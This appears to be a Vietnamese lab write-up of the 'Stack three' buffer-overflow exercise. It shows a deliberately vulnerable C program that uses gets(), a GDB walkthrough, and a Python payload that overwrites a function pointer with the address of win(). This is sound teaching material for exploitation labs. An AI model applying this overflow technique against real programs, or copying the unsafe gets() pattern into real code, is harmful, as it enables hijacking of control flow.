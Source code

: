 # Stack three

source code của chương trình
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

chương trình này sẽ kiểm tra nếu fp khác 0 thì sẽ gọi hàm tại địa chỉ fp
như vậy chúng ta chỉ cần làm cho chương trình ghi đè fp làm địa chỉ của hàm win

bắt đầu debug chương trình
![Alt text](image.png)
ta thấy `0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0` là hàm kiểm tra xem fp có phải là 0 không, nếu có thì nhảy đến `main +63`, nếu không thì lấy địa chỉ được chứa bên trong `[esp+0x5c]` ra và thực hiện hàm print.
Điểm quan trọng chúng ta cần chú ý là `0x08048475 <main+61>:   call   eax`
trong đó eax chứa fp.
Bây giờ chúng ta sẽ ghi đè sao cho fp chứa địa chỉ của win:
Để xem địa chỉ của win() chúng ta có thể dùng 
>p win

hoặc 
> x win

![Alt text](image-1.png)

tức là lúc này fp phải có địa chỉ "\x24\x84\x04\x08"
nhưng ở bài này ta không thể in ra các ki tự như trước rồi truyền vào file thực thi ./stack3 vì đây là các kí tự không thể in ra được.
do vậy ta phải viết 1 chương trình python, lưu kết quả in ra vào 1 file /tmp/exp và truyền nó vào chương trình

```py
print("A"*64 +  "\x24\x84\x04\x08")
```
![Alt text](image-2.png)

sau đó
![Alt text](image-3.png)

done~